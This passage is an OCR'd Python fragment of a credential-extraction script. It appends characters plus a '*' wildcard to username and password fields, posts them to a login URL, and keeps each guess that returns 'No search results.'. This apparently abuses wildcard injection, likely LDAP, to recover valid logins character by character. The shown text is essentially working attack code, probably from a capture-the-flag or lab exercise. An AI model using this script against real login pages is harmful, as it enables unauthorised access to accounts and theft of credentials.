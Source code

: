 ```python
			if passwd[-1] != "*":

				passwd += "*"

		except:
			pass
		

	elif cred_to_find == "passwd":

		usr_character = ''
		validate_usr = "*"
		validate_pass = ''

		try:
			if user_name[-1] != "*":
				user_name += "*"
		except:
			pass
		
	else:

		exit()



	while True:

		try:
			if cred_to_find == "user_name":

				usr_character = chr_selector(track)

			elif cred_to_find == "passwd":

				pass_character = chr_selector(track)


			r_ = requests.post(url, data={"username":user_name+usr_character+"*", "password":passwd+pass_character+"*"})


			if  (r_.status_code == 200) and ("No search results." in r_.text):

				user_name+=usr_character
				passwd+=pass_character
				
				r = requests.post(url, data={"username":user_name+validate_usr, "password":passwd+validate_pass})

				track=0

				print(f"Partially valid --> USERNAME : {user_name.replace('*', '')} | PASSWORD : {passwd.replace('*', '')}")
						
				if (r.status_code == 200) and ("No search results." in r.text):
					print(f"valid --> USERNAME : {user_name} | PASSWORD : {passwd}")

					break
				
				else:
					track+=1

```